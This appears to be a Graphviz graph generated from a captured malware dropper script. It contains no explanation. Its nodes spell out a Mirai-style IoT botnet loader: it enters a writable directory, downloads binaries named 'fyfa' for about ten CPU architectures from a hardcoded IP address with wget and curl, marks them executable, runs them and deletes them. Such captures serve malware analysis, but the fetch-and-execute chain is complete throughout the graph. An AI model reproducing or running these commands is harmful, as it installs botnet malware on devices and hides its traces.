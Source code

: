 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://89.46.67.96/fyfa.mips "];
10 -> 12 [label=";,"];
12 [label="curl -O http://89.46.67.96/fyfa.mips "];
12 -> 14 [label=";,"];
14 [label="chmod +x fyfa.mips "];
14 -> 16 [label=";,"];
16 [label="./fyfa.mips "];
16 -> 18 [label=";,"];
18 [label="rm -rf fyfa.mips "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://89.46.67.96/fyfa.mpsl "];
30 -> 32 [label=";,"];
32 [label="curl -O http://89.46.67.96/fyfa.mpsl "];
32 -> 34 [label=";,"];
34 [label="chmod +x fyfa.mpsl "];
34 -> 36 [label=";,"];
36 [label="./fyfa.mpsl "];
36 -> 38 [label=";,"];
38 [label="rm -rf fyfa.mpsl "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://89.46.67.96/fyfa.sh4 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://89.46.67.96/fyfa.sh4 "];
52 -> 54 [label=";,"];
54 [label="chmod +x fyfa.sh4 "];
54 -> 56 [label=";,"];
56 [label="./fyfa.sh4 "];
56 -> 58 [label=";,"];
58 [label="rm -rf fyfa.sh4 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://89.46.67.96/fyfa.x86 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://89.46.67.96/fyfa.x86 "];
72 -> 74 [label=";,"];
74 [label="chmod +x fyfa.x86 "];
74 -> 76 [label=";,"];
76 [label="./fyfa.x86 "];
76 -> 78 [label=";,"];
78 [label="rm -rf fyfa.x86 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://89.46.67.96/fyfa.arm "];
90 -> 92 [label=";,"];
92 [label="curl -O http://89.46.67.96/fyfa.arm "];
92 -> 94 [label=";,"];
94 [label="chmod +x fyfa.arm "];
94 -> 96 [label=";,"];
96 [label="./fyfa.arm "];
96 -> 98 [label=";,"];
98 [label="rm -rf fyfa.arm "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 110 [label="||,"];
110 [label="wget http://89.46.67.96/fyfa.i686 "];
110 -> 112 [label=";,"];
112 [label="curl -O http://89.46.67.96/fyfa.i686 "];
112 -> 114 [label=";,"];
114 [label="chmod +x fyfa.i686 "];
114 -> 116 [label=";,"];
116 [label="./fyfa.i686 "];
116 -> 118 [label=";,"];
118 [label="rm -rf fyfa.i686 "];
118 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://89.46.67.96/fyfa.pcc "];
210 -> 212 [label=";,"];
212 [label="curl -O http://89.46.67.96/fyfa.pcc "];
212 -> 214 [label=";,"];
214 [label="chmod +x fyfa.pcc "];
214 -> 216 [label=";,"];
216 [label="./fyfa.pcc "];
216 -> 217 [label=";,"];
217 [label="rm -rf fyfa.pcc "];
217 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://89.46.67.96/fyfa.i586 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://89.46.67.96/fyfa.i586 "];
152 -> 154 [label=";,"];
154 [label="chmod +x fyfa.i586 "];
154 -> 156 [label=";,"];
156 [label="./fyfa.i586 "];
156 -> 158 [label=";,"];
158 [label="rm -rf fyfa.i586 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://89.46.67.96/fyfa.m68k "];
170 -> 172 [label=";,"];
172 [label="curl -O http://89.46.67.96/fyfa.m68k "];
172 -> 174 [label=";,"];
174 [label="chmod +x fyfa.m68k "];
174 -> 176 [label=";,"];
176 [label="./fyfa.m68k "];
176 -> 178 [label=";,"];
178 [label="rm -rf fyfa.m68k "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://89.46.67.96/fyfa.spc "];
190 -> 192 [label=";,"];
192 [label="curl -O http://89.46.67.96/fyfa.spc "];
192 -> 194 [label=";,"];
194 [label="chmod +x fyfa.spc "];
194 -> 196 [label=";,"];
196 [label="./fyfa.spc "];
196 -> 198 [label=";,"];
198 [label="rm -rf fyfa.spc "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://89.46.67.96/fyfa.pcc "];
210 -> 212 [label=";,"];
212 [label="curl -O http://89.46.67.96/fyfa.pcc "];
212 -> 214 [label=";,"];
214 [label="chmod +x fyfa.pcc "];
214 -> 216 [label=";,"];
216 [label="./fyfa.pcc "];
216 -> 217 [label=";,"];
}
